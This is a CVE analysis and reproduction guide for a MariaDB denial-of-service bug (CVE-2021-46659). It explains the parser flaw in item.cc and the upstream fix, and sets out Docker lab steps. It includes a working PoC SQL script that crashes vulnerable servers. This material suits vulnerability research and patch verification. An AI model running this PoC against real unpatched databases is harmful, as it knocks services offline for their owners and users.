



# CVE-2021-46659 CWE-None MariaDB DoS via Segmentation Fault

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.

## Vulnerability Mechanism
When processing a query composed of multiple SQL features nested in an extremely complex way, the MariaDB query parser experienced scope confusion, which ultimately caused the server process to crash.

By using a carefully constructed, complex nested query containing external references, a potential logical flaw in the scope determination of the query parser can be triggered, leading to internal state contamination and ultimately causing the server to crash during subsequent execution phases.

## Vulnerability Location
Analysis of MariaDB 10.6.3:

In the sql\item.cc file, lines 5643 and 5668 of the `Item_field::fix_outer_field` function, as well as lines 6006, 8023, and 8046 of the `Item_field::fix_fields` function, have the following logic for dynamically updating the "maximum nested depth" record of an aggregator (such as SUM) during parsing queries.

When a parser finds a `SELECT` subquery inside an aggregator (such as `SUM`), it first checks whether the scope relationship between the subquery and the aggregator meets preset rules by comparing nesting depth. If it matches, it uses the depth value of this subquery to update a record of the "maximum parameter depth" inside the aggregate function, ensuring that the record always reflects the most complex (deepest) of all its parameters.

However, the second condition **only checks depth, not structural relationships**. When constructing PoC code bypasses this check, the parser mistakenly associates the outer `SUM()` function with the `SELECT` inside the `v1` view. This causes key attributes of the `SUM()` function (such as `max_arg_level`) to not be properly updated. `SUM()` functions never "know" that their parameters are views containing complex logic. After the parsing phase, this internally inconsistent parsing tree is handed over to the next phase of query optimizers and executors, causing errors.

```c
// SQL \item .cc file

// Confirm whether the parser is currently inside an aggregator function (SUM, COUNT, etc.).
if (thd->lex->in_sum_func &&
    // Only process when the aggregator function is at the same level as the current SELECT statement, or is "deeper" (i.e., nest_level larger), ensuring that the currently analyzed SELECT statement is indeed a parameter of the aggregator function ********** Vulnerability Points ****
  thd->lex->in_sum_func->nest_level >= select->nest_level)
{
    // ... ...
    // Update and record the "maximum nested depth" contained in the parameters of aggregation functions (such as SUM)
	set_if_bigger(thd->lex->in_sum_func->max_arg_level,select->nest_level);
    // ... ...
}
```

## Remediation
The fix is located in `sql\item.cc` files, with the core idea being to add stricter and more precise context checks when parsing external field references.

Similar checking logic is added to the `Item_field::fix_outer_field` and `Item_ref::fix_fields` functions. It no longer focuses solely on "depth," but instead adds a check for whether there is a **clear, structural father-son relationship** between the two.

```c
if (thd->lex->in_sum_func &&
    // The processed field reference has an "external reference," and the parent block (parent_lex) of the SELECT block (context->select_lex) is the core of the currently parsed SELECT block (thd->lex) ********* fix*****
    thd->lex == context->select_lex->parent_lex &&   
    thd->lex->in_sum_func->nest_level >= select->nest_level)
{
  set_if_bigger(thd->lex->in_sum_func->max_arg_level, select->nest_level);
}
```

## Affected Versions
MariaDB :

- 10.2.0 to 10.2.41
- 10.3.0 to 10.3.32
- 10.4.0 to 10.4.23
- 10.5.0 to 10.5.14
- 10.6.0 to 10.6.6
- 10.7.0 to 10.7.2

## Environment Setup
Start the Docker environment, MariaDB version is 10.6.3, administrator is root user, password is 12345, there is a database test_db, open port 3306, and PoC file CVE-2021-46659-PoC.sql already exists in the container.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2021-46659-PoC.sql, and you will see that an error has been encountered and the container will automatically close

```sql
source CVE-2021-46659-PoC.sql
```



4. Review the MariaDB crash log, and you can see `[ERROR] mysqld got signal 11 ;` indicating that a Segmentation Fault (segment error) has occurred and caused DoS.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis
When MariaDB parses queries, it needs to handle `SUM()` functions, and the `SUM()` parameter is a view `v1` containing external references. When parsing an external reference `t1.c` inside the `v1`, the parser confuses its contextual relationship with the external `SUM()` function, mistakenly associating aggregation operations with a certain `SELECT` within the view, thereby breaking the internal parsing tree structure and causing crashes.

```sql
-- Delete existing tables and views
DROP VIEW IF EXISTS v1;
DROP TABLE IF EXISTS t1;

-- Create table t1
CREATE TABLE t1 (c INT);

-- Create view v1
CREATE VIEW v1 AS 
	SELECT c FROM t1 
		WHERE (SELECT t1.c FROM t1 t) = 1;

-- Create a query
SELECT *  -- nest_level = 1
    FROM (
        SELECT -- nest_level = 2, the query block containing the aggregate function SUM().
            SUM(
                -- Discover the external reference SELECT statement
                -- In this expanded view, the view body SELECT c FROM t1 has nest_level = 3
                -- View WHERE condition internal subquery SELECT t1.c FROM t1 t nest_level = 4
                (SELECT * FROM v1) 
            ) AS r
    ) dt;
```

In the `WHERE` clause of View `v1`, the `t1.c` in the subquery `(SELECT t1.c FROM t1 r)` refers to the `t1` in the view main query `SELECT c FROM t1`, not the internal aliases of the subquery `r` `t1`. This is an external reference.

In the source code, `thd->lex->in_sum_func->nest_level >= select->nest_level`, the query block containing the `SUM()` function is at level 2, and the body `SELECT` of the `v1` view being analyzed is level 3, so it will not be processed. This causes key properties of the SUM function to remain unupdated (state pollution), causing the optimizer to develop an incorrect execution plan, which ultimately causes the executor to crash by accessing illegal memory at runtime.

## References
[NVD - CVE-2021-46659](https://nvd.nist.gov/vuln/detail/CVE-2021-46659)

[MDEV-25631 Crash executing query with VIEW, aggregate and subquery · MariaDB/server@7692cec](https://github.com/MariaDB/server/commit/7692cec5b0811c09f09b1f6215fc07163ad0db3a)

[[MDEV-25631\] Crash executing query with VIEW, aggregate and subquery - Jira](https://jira.mariadb.org/browse/MDEV-25631)
